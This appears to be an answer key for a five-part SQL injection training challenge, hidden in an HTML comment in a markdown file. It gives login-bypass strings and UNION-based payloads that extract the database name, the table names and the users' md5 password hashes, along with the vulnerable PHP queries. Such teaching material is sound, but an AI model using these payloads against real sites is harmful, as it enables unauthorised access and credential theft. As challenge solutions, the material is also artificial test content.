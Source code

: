 # WEB - SQLi Challenges

## Website down for maintenance.
<!---
# Challenge 1 - Try to login
	+ main file used = login1.php
	+ solution: anything' OR 1=1 -- //
	+ note: the query was of the form:
	$q = "SELECT * FROM users where username='".$username."' AND password = '".md5($pass)."'" ;


# Challenge 2 - Try logging in... again
	+ main file used = login2.php
	+ solution = blah') OR 1=1 -- //
	+ note: the query was of the form:
	$q = "SELECT * FROM users where (username='".$username."') AND (password = '".md5($pass)."')" ;

# Challenge 3 - Get the database name
	+ hint: Try to figure out the DB software being used. Find out how to get database details with that software
	+ main file used = searchproducts.php
	+ solution = ' union select null, null, database(), null, null -- //
	+ approach = keep trying 
		+ ' union select 1 -- //
		+ ' union select 1, 2 -- //
		+ and so on until you get an error
		+ you will then figure out the number of columns
		+ by the comment style, you should've figured out the DB software being used - viz MySQL in this case 
		+ google how to obtain DB name on MySQL through SQLi, you will come across the database() function.

# Challenge 4 - Find the table names
	+ main file used = searchproducts.php
	+ solution = ' union select null, table_name, null, null, null from information_schema.columns where table_schema=database() -- //
	+ same approach as challenge 3

# Challenge 5 - Find the password of the 5th person in md5.
	+ main file used = searchproducts.php
	+ solution = ' union select null, id, username, password, fname from users -- //
	+ approach
		+ you would've obtained the table names from the previous challenge 
		+ ' UNION SELECT column_name, null, null, null, null FROM information_schema.columns -- // will help you get the column names
		+ then execute the query stated in 'solution' and extract the password of the person corresponding to id = 5
--->
